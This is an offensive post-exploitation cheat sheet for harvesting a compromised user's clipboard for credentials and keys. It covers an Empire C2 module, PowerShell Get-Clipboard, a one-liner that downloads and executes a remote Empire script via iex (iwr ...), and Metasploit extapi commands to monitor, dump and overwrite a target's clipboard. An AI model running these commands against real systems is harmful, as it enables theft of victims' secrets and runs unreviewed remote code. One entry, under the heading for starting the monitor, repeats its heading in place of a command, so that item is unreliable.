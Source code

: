 # Clipboard

In some cases, we may find important information like credentials, keys or endpoints copied by the compromised user in his clipboard. 

### 1) Empire C2

    usemodule powershell/collection/clipboard_monitor

### 2) Powershell

    Get-Clipboard

### 3) Get-ClipboardContents

    iex (iwr -usebasicparsing https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ClipboardContents.ps1);Get-ClipboardContents

### 4) Metasploit

    load extapi

##### Read the target's current clipboard (text, files, images)

    clipboard_get_data

##### Dump all captured clipboard content

    clipboard_monitor_dump

##### Pause the active clipboard monitor

    clipboard_monitor_pause

##### Delete all captured clipboard content without dumping it

    clipboard_monitor_purge

##### Resume the paused clipboard monitor

    clipboard_monitor_resume

##### Start the clipboard monitor   

    Start the clipboard monitor

##### Stop the clipboard monitor   

    clipboard_monitor_stop

##### Write text to the target's clipboard    

    clipboard_set_text
